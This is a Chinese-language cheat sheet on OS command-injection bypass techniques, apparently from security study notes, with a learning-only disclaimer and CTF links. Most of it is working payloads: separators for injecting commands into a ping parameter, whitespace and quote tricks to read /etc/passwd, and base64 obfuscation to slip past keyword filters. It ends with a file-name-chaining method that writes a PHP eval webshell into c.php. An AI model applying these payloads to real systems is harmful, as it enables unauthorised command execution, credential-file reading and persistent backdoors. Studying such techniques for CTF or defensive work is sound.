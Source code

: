 # RCE

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关工具**
- [commixproject/commix](https://github.com/commixproject/commix)

**writeup**
- [BUUCTF--[第二章 web进阶]死亡ping命令](https://blog.csdn.net/qq_45414878/article/details/109672659)

---

## 绕过技巧

### Fuzz字典

- [RCE字典](https://github.com/ffffffff0x/AboutSecurity/tree/master/Payload/RCE)

### 空格代替

空格在 bash 下，可以用以下字符代替空格
```
<
${IFS}
$IFS$9
%09
```

```
cat</etc/passwd
cat${IFS}/etc/passwd
cat$IFS$9/etc/passwd
cat%09/etc/passwd
```

$IFS 在 linux 下表示分隔符，只有 cat$IFSa.txt 的时候, bash 解释器会把整个 IFSa 当做变量名，所以导致没有办法运行，然而如果加一个 {} 就固定了变量名，同理在后面加个 $ 可以起到截断的作用，而 $9 指的是当前系统 shell 进程的第九个参数的持有者，就是一个空字符串，因此 $9 相当于没有加东西，等于做了一个前后隔离。

### 截断符号

比如测试 ping 功能的点，要求填写一个 ip 参数这样的题目，这个时候就需要测试截断符号，将你输入的 ip 参数和后面要执行的命令隔开。首先测试所有的截断符号：
```
$
;
|
-
(
)
`
||
&&
&
}
{
%0a
```

利用截断符号配合普通命令简单问题基本就出来；例如：ip=127.0.0.1;cat /home/flag.txt 这样就可以达到同时执行两条命令的效果

### 编码

这种绕过针对的是系统过滤敏感字符的时候，比如他过滤了cat命令，那么就可以用下面这种方式将cat先base64编码后再进行解码运行。
```
echo 'cat' | base64

`echo 'Y2F0Cg==' | base64 -d` /etc/passwd
```

针对一些代码执行的场景,可以通过在 base64 中添加干扰字符的方式尝试绕过
```
success-inject
c3VjY2Vzcy1pbmplY3Q=
```

php
```php
<?php
$str='--!~@--c3V$$j<$>Y--|@--2Vzcy1--|@--p--|@--b^^mp--|@--lY--|@--3Q=';
echo base64_decode($str);
?>
```

python
```python
import base64
leleyyds = base64.b64decode("--!~@--c3V$$j<$>Y--|@--2Vzcy1--|@--p--|@--b^^mp--|@--lY--|@--3Q=")
print(leleyyds.decode())
```

### 单引号

```
cat /etc/pass'w'd
```

### 反斜杠利用

linux 下创建文件的命令可以用 `1>1` 创建文件名为 1 的空文件

`ls>1` 可以直接把 ls 的内容导入一个文件中, 但是会默认追加 \n

**Linux**
```
w>hp\\
w>c.p\\
w>d\>\\
w>\ -\\
w>e64\\
w>bas\\
w>7\|\\
w>XSk\\
w>Fsx\\
w>dFV\\
w>kX0\\
w>bCg\\
w>XZh\\
w>AgZ\\
w>waH\\
w>PD9\\
w>o\ \\
w>ech\\
ls -t>ls
sh ls
```

- w 长度最短的命令
- ls -t 以创建时间来列出当前目录下所有文件
- 文件列表以[ [ 换 行符] ]分割每个文件
- 引入 `\` 转义ls时的换行
- 换行不影响命令执行
- 成功构造任意命令执行,写入Webshell

```bash
ls -t
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7 | base64 -d>c.php
```
